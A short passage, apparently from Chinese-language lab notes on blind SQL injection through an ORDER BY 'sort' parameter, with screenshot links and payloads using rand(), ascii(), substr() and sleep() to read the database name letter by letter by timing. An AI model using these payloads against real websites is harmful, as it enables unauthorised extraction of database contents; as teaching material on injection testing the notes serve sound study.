 ```
rand(ascii(left(database(),1))=115)
```

显示不一样

![image-20241210193510375](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241210193510375.png)

![image-20241210193528529](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20241210193528529.png)

```
?sort=rand(if(ascii(substr(database(),1,1))>114,1,sleep(1)))
?sort=rand(if(ascii(substr(database(),1,1))>115,1,sleep(1)))
```

数据库第一个字母的 ascii 码为 115，即 `s`，114不延时，115延时

